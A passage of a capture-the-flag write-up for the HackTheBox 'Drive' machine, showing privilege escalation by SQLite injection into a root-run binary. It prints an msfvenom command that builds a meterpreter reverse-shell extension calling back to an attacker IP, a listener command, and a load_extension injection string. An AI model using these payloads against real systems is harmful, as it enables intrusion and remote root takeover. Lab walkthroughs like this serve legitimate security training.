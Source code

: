The program uses `fgets()` in order to take user input so we might think about buffer overflow, but there is a sanitizing functions which prevents us from exceding the buffer.

![](@assets/HackTheBox/Drive/fgets.png)

Testing the functions there is only one which takes user input: **5. activate user account**.

![](@assets/HackTheBox/Drive/case_5.png)

Checking it with ghidra reveals the command it is running and where our input is sent:

![](@assets/HackTheBox/Drive/activate_user_account.png)

### SQLite injection

We are working with the following string:

~~~bash
/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line \'UPDATE accounts_customuser SET is_active=1 WHERE username=\"%s\";\'
~~~

We can try injecting the **load_extension()** function to add a malicious extension and gain remote access as root.

First we generate the malicious `.so` file with msfvenom:

~~~bash
❯ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f elf.so -o ex.so
~~~

Now, after transferring the file to the victim machine, we can set our listener:

~~~bash
❯ msfconsole -q -x 'use exploit/multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set lhost tun0; set lport 1337; run'
~~~

Execute the program and inject the following string:

~~~bash
"+load_extension(char(46,47,101,120))+"
~~~

After that we receive our meterpreter session:

![](@assets/HackTheBox/Drive/root.png)

